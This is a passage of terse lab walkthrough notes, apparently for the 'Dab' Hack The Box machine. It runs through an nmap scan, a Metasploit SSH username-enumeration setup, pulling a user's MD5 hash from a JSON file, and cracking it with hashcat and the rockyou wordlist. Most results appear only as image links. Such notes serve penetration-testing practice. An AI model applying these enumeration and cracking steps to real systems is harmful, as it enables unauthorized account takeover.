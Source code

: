 ```nmap -sC -sV -oA nmap/dab 10.10.10.86```


```set RHOST```
```set THREADS 50```
```set USER FILE user.lst```
```run```


![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549221592377_image.png)


test the functionality of this ssh enum easily by creating a new file with known usernames ie. root and run scanner.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549221728534_image.png)


*to which we have just verified the aux scanner does work correctly. - Continue to user.lst*


Username found: genevieve

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549221838390_image.png)


search for hash

```jq . users.json| grep genevieve```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549221895410_image.png)


*copy hash > move to hashcat to crack - DO NOT USE VM to crack hashes process is very slow.*

*CRACKING WITH HASHCAT:*
move to hashcat directory

```cd hashcat```

create new file for hash > paste hash

```vi hashes/dab.gene```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549222057011_image.png)


find the value required for cracking MD5:

```hashcat -h|grep -i md5```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549222212298_image.png)


run hashcat against the hash:

```./hashcat -m 0 hashes/dab.gene /opt/wordlist/rockyou.txt```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549222360115_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549222387606_image.png)

```
